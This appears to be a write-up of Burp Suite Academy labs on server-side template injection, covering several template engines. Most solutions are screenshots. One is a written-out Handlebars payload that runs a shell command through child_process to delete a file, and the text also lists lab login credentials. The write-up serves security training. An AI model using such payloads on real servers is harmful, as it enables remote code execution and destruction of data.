# BurpSuite Labs - Server Side Template Injection


## Basic server-side template injection

### Enunciation

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

### Solution

Identify an injection point. 



Test a template injection. From the enunciate we knew it was ERB.


Listing root "/."



Listing "/home/carlos."


Beforehand, we run a whoami.


## Basic server-side template injection (code context)

### Enunciation

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`
### Solution










Afterwards, you need to visit the endpoint where the code gets executed.


## Server-side template injection using documentation

### Enunciation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

### Solution




## Server-side template injection in an unknown language with a documented exploit

### Enunciation

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

### Solution

Find out injection point and obtain template engine from stack traces:


Search the web for "Handlebars server-side template injection". You should find a well-known exploit posted by `@Zombiehelp54`. 



Url-encode this payload for resolution: 

```
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}  
```


## Server-side template injection with information disclosure via user-supplied objects

### Enunciation

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

### Solution







Reading some documentation about settings in django documentation:
https://docs.djangoproject.com/en/5.0/ref/settings/#secret-key




## Server-side template injection in a sandboxed environment

### Enunciation

This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file `my_password.txt` from Carlos's home directory. Then submit the contents of the file.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`

### Solution







## Server-side template injection with a custom exploit

### Enunciation

This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

#### Warning

As with many high-severity vulnerabilities, experimenting with server-side template injection can be dangerous. If you're not careful when invoking methods, it is possible to damage your instance of the lab, which could make it unsolvable. If this happens, you will need to wait 20 minutes until your lab session resets.

### Solution




## Server-side template injection with a custom exploit

### Enunciation

This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

**Warning**

As with many high-severity vulnerabilities, experimenting with server-side template injection can be dangerous. If you're not careful when invoking methods, it is possible to damage your instance of the lab, which could make it unsolvable. If this happens, you will need to wait 20 minutes until your lab session resets.

### Solution


